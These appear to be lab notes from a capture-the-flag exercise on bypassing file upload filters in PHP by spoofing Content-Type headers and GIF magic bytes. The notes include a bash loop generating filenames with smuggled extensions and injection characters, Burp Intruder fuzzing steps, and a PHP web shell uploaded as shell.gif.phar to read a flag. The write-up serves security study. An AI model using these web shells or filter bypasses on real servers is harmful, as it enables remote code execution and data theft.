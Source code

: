 # Type Filters

All of this indicates that only testing the file extension is not enough to prevent file upload attacks.

There are two common methods for validating the file content: 
- Content-Type Header
- File Content

## Content-Type

http://SERVER_IP:PORT/

Example of code :

$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}

Fuzz Content-Type Wordlist through Burp Intruder :

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt
cat content-type.txt | grep 'image/' > image-content-types.txt

Note : A file upload HTTP request has two Content-Type headers (one for the main file and one for the attached file) , in some cases we will need to modify both headers

## MIME-Type

MIME-Type. Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file by inspecting the first few bytes of the file's content, which contain the File Signature or Magic Bytes.

For example : if a file starts with (GIF87a or GIF89a), this indicates that it is a GIF image.

Example of MIME check :

echo "this is a text file" > text.jpg 
file text.jpg 
text.jpg: ASCII text

echo "GIF8" > text.jpg 
file text.jpg
text.jpg: GIF image data

Example of code using MIME :

$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}

We can use a combination of the two methods discussed in this section

## LAB

Change Response Body :

onchange="checkFile(this)"
onchange=""

accept=".jpg,.jpeg,.png"
accept=""

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar'; do
        echo "shell$ext.jpg" >> wordlist.txt
        echo "shell.jpg$ext" >> wordlist.txt
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt
cat content-type.txt | grep 'image/' > image-content-types.txt

Burp Intruder

echo "GIF8" > text.jpg 

Content-Disposition: form-data; name="uploadFile"; filename="text.jpg"
Content-Type: §image/jpeg§

Payload : image-content-types.txt

All Refused

echo "GIF8<?php system('cat /flag.txt'); ?>" > shell.phar.jpg

http://83.136.251.235:41726/profile_images/shell.phar.jpg

echo "GIF8<?php system('cat /flag.txt'); ?>" > shell.phar.gif

http://83.136.251.235:41726/profile_images/shell.phar.gif

cp shell.phar.gif shell.gif.phar

Content-Disposition: form-data; name="uploadFile"; filename="shell.gif.phar"
Content-Type: image/gif
GIF8<?php system('cat /flag.txt'); ?>

http://83.136.251.235:41726/profile_images/shell.gif.phar
GIF8HTB{m461c4l_c0n73n7_3xpl0174710n}